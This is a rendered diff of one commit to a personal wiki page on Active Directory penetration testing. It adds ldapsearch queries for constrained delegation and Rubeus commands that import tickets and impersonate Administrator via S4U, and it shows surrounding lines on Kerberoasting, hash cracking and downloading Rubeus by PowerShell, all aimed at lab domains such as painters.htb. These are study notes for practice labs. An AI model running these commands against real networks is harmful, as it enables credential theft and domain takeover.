

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 900 px high, scrolled down 5238 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -26,8 +26,9 @@ hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
 
 **[LDAPSearch Cheat Sheet](https://notes.benheater.com/books/active-directory/page/ldapsearch)**
 ```
-Domain Contexts: ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts
-Search Users: ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)'
+ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts (Domain Contexts)
+ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)' (Search Users)
+ldapsearch -H ldap://192.168.110.55 -x -D "web_svc@painters.htb" -W -b "dc=painters,dc=htb" "(msDS-AllowedToDelegateTo=*)" msDS-AllowedToDelegateTo (Constrained Delegation)
 ```
 
 **[Share Enumeration]**
@@ -120,6 +121,11 @@ Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object
 GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
 hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
 ```
+
+**[Constrained Delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation)**
+
+**Additional Resources**
+  - [Using altservice to generate LDAP TGS](https://medium.com/r3d-buck3t/attacking-kerberos-constrained-delegations-4a0eddc5bb13#3276)
 
 ## Lateral Movement
 [ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)
@@ -224,6 +230,16 @@ powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.e
 ```
 Rubeus.exe dump /luci:0x599ac7 /service:CIFS/dc.painters.htb /nowrap /outfile [dump to kirbi files]
 Rubeus.exe asktgt /user:blake /password:Password123! /domain:PAINTERS.HTB /dc:192.168.110.55 [request for TGT using credentials]
+Rubeus.exe ptt /ticket:test.kirbi (import ticket)
+Rubeus.exe tgtdeleg /user:blake /password:Password123! /domain:PAINTERS.HTB /target:CIFS/dc.painters.htb /nowrap (ticket delegation with TGT to obtain TGS of target service)
+Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:"CIFS/dc.painters.htb" /user:blake /ticket:test.kirbi /nowrap (Access to CIFS/dc.painters.htb)
+
+
+**For Linux use:**
+base64 -d ticket.kirbi.b64 > ticket.kirbi
+ticketConverter.py cifs.kirbi cifs.ccache
+export KRB5CCNAME=cifs.ccache
+sudo apt-get install krb5-user
 ```
 
 **[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)**
````
